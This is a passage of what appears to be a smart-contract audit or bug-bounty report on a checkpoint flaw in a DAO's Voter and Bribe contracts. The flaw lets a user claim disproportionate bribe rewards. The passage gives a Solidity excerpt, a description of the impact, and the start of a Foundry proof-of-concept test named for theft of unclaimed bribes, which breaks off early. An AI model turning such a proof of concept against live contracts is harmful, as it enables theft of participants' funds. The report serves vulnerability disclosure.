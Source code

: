 ```solidity
  354:         if (_nCheckPoints > 0 && checkpoints[tokenId][_nCheckPoints - 1].timestamp == _timestamp) {
  355:             checkpoints[tokenId][_nCheckPoints - 1].balanceOf = balance;
  356:         } else {
@>357:             checkpoints[tokenId][_nCheckPoints] = Checkpoint(_timestamp, balance);
  358:             numCheckpoints[tokenId] = _nCheckPoints + 1;
  359:         }
  360:     }
```

Additionally, when `Voter::poke` is called, it saves another checkpoint only if it is invoked at a different timestamp than the checkpoint saved during the claim. Consequently, when `Bribe::earned` starts calculating based on the first checkpoint index after the last epoch, it iterates over both checkpoints, leading to potential discrepancies and unintended influences across epochs.

## Impact Details
1. **Economic Incentive Disruption**: By exploiting this vulnerability, a user can claim an outsized portion of the rewards pool, potentially leaving insufficient funds for other participants.
2. **Resource Drainage**: Continuous exploitation of this vulnerability could lead to significant resource drainage, reducing the overall effectiveness and sustainability of the DAO.


        
## Proof of concept
### Test Case (Foundry)
The provided test demonstrates how the manipulation of voting weights and reward claims can lead to disproportionate reward allocation. The test involves two participants, Alice and Bob, where Bob manipulates the system to claim full rewards for an epoch by strategically timing his votes and claims. This test is critical for illustrating the practical exploitability of the vulnerability under realistic conditions.

#### Test Execution:
The test can be added to a new file under the current test suite `src/test/VotingPoC.t.sol`, then specify the file name in `FILE` flag under `Makefile` configuration. Run using `make test_file`

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract VotingPoCTest is BaseTest {
    address public alice;
    address public bob;

    function setUp() public {
        setupContracts(block.timestamp);

        // Setup Alice and Bob addresses
        alice = vm.addr(uint256(keccak256(abi.encodePacked('Alice'))));
        vm.label(alice, 'Alice');
        bob = vm.addr(uint256(keccak256(abi.encodePacked('Bob'))));
        vm.label(alice, 'Bob');
    }

    function testTheftOfUnclaimedBribes() public {
        uint256 period = minter.activePeriod();
        hevm.warp(period + 1 days);

        uint256 aliceTokenId = createVeAlcx(alice, TOKEN_1, 1, true);
        uint256 bobTokenId = createVeAlcx(bob, TOKEN_1, 1, true);

        address bribeAddress = voter.bribes(address(sushiGauge));
```